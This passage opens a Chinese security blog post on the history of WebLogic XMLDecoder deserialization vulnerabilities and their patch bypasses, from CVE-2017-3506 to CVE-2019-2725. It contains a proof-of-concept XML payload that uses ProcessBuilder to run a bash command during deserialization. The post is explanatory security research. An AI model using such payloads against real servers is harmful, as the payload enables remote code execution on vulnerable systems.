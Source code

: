 > 原文链接: https://www.anquanke.com//post/id/180725 


# 浅谈Weblogic反序列化——XMLDecoder的绕过史


                                阅读量   
                                **227969**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t017103f82dc8a4fc87.png)](https://p1.ssl.qhimg.com/t017103f82dc8a4fc87.png)



从CVE-2017-3506为起点至今，weblogic接二连三的吧爆出了大量的反序列化漏洞，而这些反序列化漏洞的很大一部分，都是围绕着XMLDecoder的补丁与补丁的绕过展开的，所以笔者以CVE-2017-3506为起点，到近期的CVE-2019-2725及其绕过来谈一谈这两年weblogic在XMLDecoder上的缝缝补补。



## 认识XMLDecoder

首先去看一下XMLDecoder的官方文档，如下：

XMLDecoder 类用于读取使用 XMLEncoder 创建的 XML 文档，用途类似于 ObjectInputStream。例如，用户可以使用以下代码片段来读取以 XML 文档形式（通过 XMLEncoder 类写入）定义的第一个对象：



```
XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("Test.xml")));

Object result = d.readObject();

d.close();
```

作为一名java反序列化的研究人员，看到readObject()函数就应该带有一丝兴奋，至少代表我们找到入口了。

先不去管在weblogic上的利用，我们先构造一个特殊的poc.xml文件，让XMLDecoder去解析一下，看一下流程

```
&lt;java&gt;
    &lt;object class="java.lang.ProcessBuilder"&gt;
        &lt;array class="java.lang.String" length="3"&gt;
            &lt;void index="0"&gt;
                &lt;string&gt;/bin/bash&lt;/string&gt;
            &lt;/void&gt;
            &lt;void index="1"&gt;
                &lt;string&gt;-c&lt;/string&gt;
            &lt;/void&gt;
            &lt;void index="2"&gt;
                &lt;string&gt;ls&lt;/string&gt;
            &lt;/void&gt;
        &lt;/array&gt;
        &lt;void method="start"/&gt;
    &lt;/object&gt;
&lt;/java&gt;
```
